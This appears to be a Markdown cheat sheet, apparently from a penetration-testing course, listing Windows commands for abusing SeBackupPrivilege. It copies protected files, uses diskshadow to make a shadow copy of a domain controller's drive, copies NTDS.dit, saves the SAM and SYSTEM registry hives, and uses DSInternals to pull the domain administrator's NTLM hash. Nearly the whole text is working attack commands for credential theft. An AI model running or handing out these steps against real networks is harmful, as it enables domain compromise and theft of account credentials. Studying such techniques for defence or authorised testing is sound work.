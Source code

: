 #### Copying a Protected File
```PowerShell
Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
```
Command which uses SeBackupPrivilege to copy a file from a remote location to a folder the attacker has access to

#### Attacking a Domain Controller - Copying NTDS.dit
```PowerShell
diskshadow.exe

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```
Exposes the share file for the Domain Controller (shouuld be `E:`)

#### Copying NTDS.dit Locally
```PowerShell
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```
Uses SeBackupPrivilege to copy the NTDS.dit file to a local location

#### Backing up SAM and SYSTEM Registry Hives
```cmd.exe
reg save HKLM\SYSTEM SYSTEM.SAV
```
Saves the SYSTEM registry hive locally

```cmd.exe
reg save HKLM\SAM SAM.SAV
```
Saves the SAM registry locally

#### Extracting Credentials from NTDS.dit
```PowerShell
Import-Module .\DSInternals.psd1
```

```PowerShell
$key = Get-BootKey -SystemHivePath .\SYSTEM
```

```PowerShell
Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```
Obtains the NTLM hash for just the administrator account for the domain using DSInternals.
